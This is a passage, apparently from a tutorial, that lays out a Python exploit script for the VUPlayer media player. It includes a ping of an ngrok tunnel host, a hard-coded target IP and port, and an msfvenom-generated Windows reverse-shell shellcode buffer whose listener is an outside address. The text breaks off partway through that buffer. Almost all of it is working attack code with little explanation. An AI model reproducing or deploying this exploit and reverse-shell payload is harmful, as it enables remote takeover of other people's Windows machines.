 ## The base python script (Master Dreg)

add target_ip, port number and shell script to our base python script. To achieve our intentions we should make a ping of the windows machine 
```sh
$ ping 0.tcp.ngrok.io
PING 0.tcp.ngrok.io (3.134.39.220) 56(84) bytes of data.
^C
--- 0.tcp.ngrok.io ping statistics ---
5 packets transmitted, 0 received, 100% packet loss, time 4082ms
```

```python
#!/usr/bin/env python

from socket import *
from time import sleep
from sys import exit, exc_info
import os

print ("-") *40
print ("| VUPlayer Exploit v1.0 by Sm@rtR3v0lt |")
print ("-") *40
print ("|               thanks to Master Dreg! |")
print ("-") *40

os.system("ifconfig eth0 mtu 3000")

# tcp://0.tcp.ngrok.io:14087 -> localhost:21
target_ip = "3.134.39.220" # Remote machine IP
port = int(15139) #ngrok remote machine

# msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp -e x86/alpha_mixed LHOST=3.22.53.161 LPORT=11954  -f python
buf =  b""
buf += b"\xda\xd0\xd9\x74\x24\xf4\x59\x49\x49\x49\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x43\x37\x51"
buf += b"\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51"
buf += b"\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58\x50"
buf += b"\x38\x41\x42\x75\x4a\x49\x79\x6c\x59\x78\x4e\x62\x37"
buf += b"\x70\x77\x70\x43\x30\x65\x30\x6c\x49\x4a\x45\x64\x71"
buf += b"\x49\x50\x55\x34\x4e\x6b\x52\x70\x30\x30\x6e\x6b\x50"
buf += b"\x52\x56\x6c\x6c\x4b\x56\x32\x34\x54\x4e\x6b\x53\x42"
buf += b"\x46\x48\x44\x4f\x4f\x47\x30\x4a\x71\x36\x34\x71\x79"
buf += b"\x6f\x4e\x4c\x37\x4c\x45\x31\x33\x4c\x47\x72\x64\x6c"
buf += b"\x51\x30\x69\x51\x4a\x6f\x34\x4d\x36\x61\x69\x57\x6d"
buf += b"\x32\x59\x62\x71\x42\x62\x77\x6e\x6b\x62\x72\x44\x50"
buf += b"\x4e\x6b\x50\x4a\x47\x4c\x4e\x6b\x72\x6c\x74\x51\x72"
buf += b"\x58\x68\x63\x47\x38\x46\x61\x6a\x71\x46\x31\x6c\x4b"
buf += b"\x52\x79\x51\x30\x46\x61\x78\x53\x4c\x4b\x50\x49\x37"
buf += b"\x68\x6a\x43\x46\x5a\x61\x59\x6e\x6b\x65\x64\x6e\x6b"
buf += b"\x33\x31\x49\x46\x34\x71\x59\x6f\x4c\x6c\x49\x51\x38"
buf += b"\x4f\x36\x6d\x65\x51\x6f\x37\x77\x48\x4b\x50\x34\x35"
buf += b"\x79\x66\x74\x43\x51\x6d\x7a\x58\x37\x4b\x71\x6d\x77"
buf += b"\x54\x50\x75\x6d\x34\x62\x78\x6e\x6b\x62\x78\x37\x54"
buf += b"\x77\x71\x6e\x33\x31\x76\x6e\x6b\x36\x6c\x62\x6b\x6e"
buf += b"\x6b\x73\x68\x57\x6c\x46\x61\x7a\x73\x6e\x6b\x43\x34"
buf += b"\x4e\x6b\x35\x51\x4e\x30\x4e\x69\x50\x44\x56\x44\x65"
buf += b"\x74\x61\x4b\x51\x4b\x73\x51\x72\x79\x32\x7a\x33\x61"
buf += b"\x49\x6f\x69\x70\x51\x4f\x71\x4f\x50\x5a\x4e\x6b\x55"
buf += b"\x42\x5a\x4b\x6e\x6d\x71\x4d\x65\x38\x30\x33\x34\x72"
buf += b"\x47\x70\x73\x30\x51\x78\x71\x67\x53\x43\x35\x62\x51"
buf += b"\x4f\x32\x74\x61\x78\x52\x6c\x64\x37\x54\x66\x66\x67"
buf += b"\x69\x6f\x49\x45\x4e\x58\x7a\x30\x43\x31\x57\x70\x55"
```